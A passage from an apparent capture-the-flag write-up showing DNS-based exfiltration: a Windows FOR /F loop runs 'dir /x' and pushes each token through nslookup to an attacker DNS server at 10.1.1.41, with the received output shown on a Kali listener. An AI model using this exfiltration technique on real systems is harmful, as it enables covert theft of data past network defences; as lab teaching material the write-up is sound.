     *** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E...F.G.H.I.J.K.L.M.N.O.P.Q
    .R.S.T.U.V.W.X.Y.Z: Unspecified error
    DNS request timed out.
        timeout was 2 seconds.
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find A0.BFile(s).C0.Dbytes.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V
    .W.X.Y.Z: No response from server
    DNS request timed out.
        timeout was 2 seconds.
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find A2.BDir(s).C4,913,123,328.Dbytes.Efree.F.G.H.I.J.K.L.M.N.
    O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
    

Here’s what I received at my shell:

    
    
    root@kali# ./ethereal_shell.py 
    AVolume.BSerial.CNumber.Dis.EF06E-7663.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    ADirectory.Bof.CC:Users0xdftest.D.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    A0.BFile(s).C0.Dbytes.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    A2.BDir(s).C4,913,123,328.Dbytes.Efree.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    

There were seven lines in the dir, but only four reached me. I’ll look closer
at one of the lines that had an error:

    
    
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E..F.G.H.I.J.K.L.M.N.O.P.Q.
    R.S.T.U.V.W.X.Y.Z: Unspecified error
    

That would have been this line:

    
    
    02/25/2019  07:04 AM    <DIR>                       .
    

So the token that ended with a `.` led to two in a row, and therefore an
invalid domain. That happened three times.

I can make this somewhat better by putting a letter before and after the
token:

    
    
    (FOR /F "tokens=1-26" %a IN ('dir /x') DO ( nsloo
    kup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.
    Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.1.1.41))
    

That gives 6 of the 7 lines (`..` still breaks things):
